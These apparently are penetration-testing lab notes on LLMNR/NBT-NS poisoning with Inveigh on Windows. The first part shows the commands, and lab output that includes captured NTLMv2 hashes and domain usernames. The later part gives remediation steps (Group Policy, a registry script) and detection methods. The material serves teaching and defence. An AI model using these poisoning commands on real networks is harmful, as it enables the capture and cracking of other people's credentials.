




# LLMNR/NBT-NS Poisoning - from Windows (+REMEDIATION)

***

### <mark style="color:red;">Using Inveigh</mark>

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```


```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


We can see that we immediately begin getting LLMNR and mDNS requests. The below animation shows the tool in action.

<figure><figcaption></figcaption></figure>

We can also see the message `Press ESC to enter/exit interactive console`

```powershell-session
<SNIP>

C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing `HELP` and hitting enter, we are presented with several options


```powershell-session

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
<SNAP>
STOP                            | stop Inveigh
```


We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.


```powershell-session
Hashes
backupagent::INLANEFREIGHT:B5013246091943D7:16A41000400020000000800300030
forend::INLANEFREIGHT:32FD80440045004D0059002D00450041002D004D005300300031002E0049004E004C0041004E0045004600520045004
<SNIP>
```


We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.


```powershell-session

=================================================== NTLMv2 Usernames ===================================================

IP Address                        Host                              Username                          Challenge
========================================================================================================================
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\backupagent       | B5013246091943D7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\forend            | 32FD89BD78804B04
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\clusteragent      | 28BF08D82FA998E4
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\wley              | 277AC2ED022DB4F7
172.16.5.125                    | ACADEMY-EA-FILE                 | INLANEFREIGHT\svc_qualys        | 5F9BB670D23F23ED
```


Let's start Inveigh and then interact with the output a bit to put it all together.

<figure><figcaption></figcaption></figure>

***

## <mark style="color:red;">Remediation</mark>

Mitre ATT\&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

**There are a few ways to mitigate this attack. To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.**&#x20;

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

<figure><figcaption></figcaption></figure>

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.

<figure><figcaption></figcaption></figure>

While it is not possible to disable NBT-NS directly via GPO, we can create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:


```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```


In the Local Group Policy Editor, we will need to double click on `Startup`, choose the `PowerShell Scripts` tab, and select "For this GPO, run scripts in the following order" to `Run Windows PowerShell scripts first`, and then click on `Add` and choose the script. For these changes to occur, we would have to either reboot the target system or restart the network adapter.

<figure><figcaption></figcaption></figure>

To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

Once the GPO is applied to specific OUs and those hosts are restarted, the script will run at the next reboot and disable NBT-NS, provided that the script still exists on the SYSVOL share and is accessible by the host over the network.

<figure><figcaption></figcaption></figure>


Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.


***

### <mark style="color:red;">Detection</mark>

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. This [blog post](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/) explains this method more in-depth.

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs [4697](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4697) and [7045](https://www.manageengine.com/products/active-directory-audit/kb/system-events/event-id-7045.html) can be monitored for. Finally, we can monitor the registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for changes to the `EnableMulticast` DWORD value. A value of `0` would mean that LLMNR is disabled.

***
